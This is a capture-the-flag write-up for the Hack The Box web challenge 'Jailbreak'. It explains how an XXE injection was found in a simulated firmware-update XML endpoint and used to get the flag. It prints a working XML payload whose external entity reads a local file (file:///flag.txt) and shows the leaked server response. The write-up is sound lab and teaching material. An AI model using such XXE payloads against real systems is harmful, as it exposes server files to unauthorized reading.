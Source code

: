 ```yaml
---
clayout: ctf
title: Jailbreak
date: 2024-12-27
image: /icon/hack-the-box/web.svg
type: Hack The Box

ctf:
    - name: Jailbreak
      link: https://app.hackthebox.com/challenges/728
      thumbnail: /ctf/hack-the-box/challenges/web/jailbreak/thumbnail.gif
      pwned:
        - link: https://www.hackthebox.com/achievement/challenge/585215/728
          thumbnail: /ctf/hack-the-box/challenges/web/jailbreak/pwned.png
---
```


## Challenge Description

The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily
guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device.

## Challenge Overview

This challenge simulates the **Fallout Pip-Boy** interface, providing various interactive pages such as Stats,
Inventory, Data, Map, Radio, and Rom. The focus of this challenge is the **Rom** page, where the application accepts XML
data to simulate a firmware update.

![Jailbreak - Overview](/ctf/hack-the-box/challenges/web/jailbreak/overview.png)

## Enumeration

### Initial Observation

On the **Rom** page, users can upload XML data for a firmware update. When XML data is submitted, the server processes
it and returns a success message indicating the initiation of the firmware update.

Example XML payload:

```xml

<FirmwareUpdateConfig>
    <Firmware>
        <Version>3.0</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
</FirmwareUpdateConfig>
```

### Server Response

Upon sending the above payload, the server returns the following JSON response:

```json
{
    "message": "Firmware version 3.0 update initiated."
}
```

#### Behavior Analysis

- The `Version` tag value from the XML payload is directly reflected in the response message.
- This behavior suggests the application parses the XML and uses its content dynamically in the response, making it a
  candidate for **XXE injection**.

## Exploitation: XML External Entity (XXE) Injection

The application processes user-supplied XML without sanitization, making it vulnerable to XXE. By crafting a malicious
payload, we can instruct the server to read sensitive files such as `/flag.txt`.

### Crafting the XXE Payload

To exploit the XXE vulnerability, we inject an external entity that points to the `/flag.txt` file. The `<Version>` tag
is used as the injection point to return the file's content in the server's response.

Malicious XML payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///flag.txt">
    ]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
    </Firmware>
</FirmwareUpdateConfig>
```

### Payload Explanation

1. **Document Type Declaration (DTD):**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "file:///flag.txt">
   ]>
   ```
    - Defines an external entity `xxe` pointing to the file `/flag.txt`.

2. **Entity Injection:**
   ```xml
   <Version>&xxe;</Version>
   ```
    - References the `xxe` entity in the `<Version>` tag.

3. **Server Behavior:**
    - The server parses the XML payload, resolves the `xxe` entity, and includes the content of `/flag.txt` in the
      response.

### Retrieving the Flag

Upon sending the XXE payload to the server, the response includes the contents of the `/flag.txt` file within the
`message` field:

```json
{
    "message": "Firmware version HTB{f4k3_fl4g} update initiated."
}
```

We successfully exploited the XXE vulnerability to retrieve the flag! 🎉

## References

- [OWASP - XML External Entity (XXE)](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
- [PortSwigger - What is XXE?](https://portswigger.net/web-security/xxe)
- [XML DTD and Entities](https://www.w3.org/TR/REC-xml/#sec-prolog-dtd)
